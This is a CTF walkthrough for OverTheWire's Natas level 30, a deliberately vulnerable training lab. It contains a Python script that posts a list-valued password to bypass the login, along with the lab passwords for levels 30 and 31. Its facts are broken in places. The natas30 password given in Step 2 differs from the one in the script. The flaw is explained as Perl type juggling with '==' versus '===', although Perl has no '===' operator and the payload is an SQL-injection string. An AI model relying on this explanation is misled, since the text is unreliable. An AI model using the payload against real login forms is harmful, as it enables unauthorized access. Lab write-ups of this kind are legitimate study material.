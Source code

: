 # Natas CTF Solutions  

## Natas Level 30  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Bypass authentication using **type juggling** in Perl.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas30.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas30`  
- **Password:** Use the password from Natas Level 29:  
```
31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
```  

![Home_Page](https://github.com/user-attachments/assets/ec4438a1-c334-423f-bc01-d779ec24d431)

---

### **Step 3: Analyze the Challenge**  
1. Right-click is disabled (to prevent viewing source).  
2. Open the URL directly in a new tab to bypass the right-click block.  
3. The authentication process checks both **username** and **password** values.  
4. The goal is to exploit **Perl's type juggling** vulnerability, where:  
   - A string `'0'` or an empty string `''` can be evaluated as `false` when treated as a boolean or numeric value.  
   - An array with multiple elements will also evaluate to `true`.  

![Source_Code](https://github.com/user-attachments/assets/c37319c0-84d2-4877-b586-7bb9b4af8d36)

---

### **Step 4: Create Type Juggling Payload**  
- Exploit type juggling by sending a password value as an **array**:  
   - If the server checks using `==`, it will compare the array to a string and evaluate it as `true`.  

---

### **Step 5: Exploit Code**  
Here’s the Python code to execute the attack:  

```python
import requests

url = "http://natas30.natas.labs.overthewire.org/index.pl"

# Start session and authenticate
s = requests.Session()
s.auth = ('natas30', 'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')

# Exploit type juggling by passing an array as the password
data = {
    "username": "natas31",
    "password": ["'' or 1", 2]  # Exploit type juggling vulnerability
}

# Send the POST request
r = s.post(url, data=data)

# Print response
print(r.text)
```

---

### **Step 6: Result**  
The output reveals the password for the next level:  
```  
The password for natas31 is: m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y  
```

![Password](https://github.com/user-attachments/assets/5054d1d6-4b2d-4ff0-908e-fa05cb08d6e0)

---

### **✅ Password for Natas Level 31**  
```
m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y
```

---

## 💡 **Lessons Learned**  
✔️ **Type Juggling:** Perl, PHP, and other loosely typed languages may treat strings, arrays, and booleans inconsistently.  
✔️ **Loose Comparison (`==`) vs Strict Comparison (`===`):**  
- `==` compares values after type conversion → vulnerable to type juggling.  
- `===` compares values **and** types → secure comparison.  
✔️ **Bypassing Input Validation:** Exploiting type confusion can bypass authentication or input validation.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/c37319c0-84d2-4877-b586-7bb9b4af8d36) |  
| Step 6 – Found Password | ![Password](https://github.com/user-attachments/assets/5054d1d6-4b2d-4ff0-908e-fa05cb08d6e0) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 31**:  
👉 [http://natas31.natas.labs.overthewire.org](http://natas31.natas.labs.overthewire.org)  

---
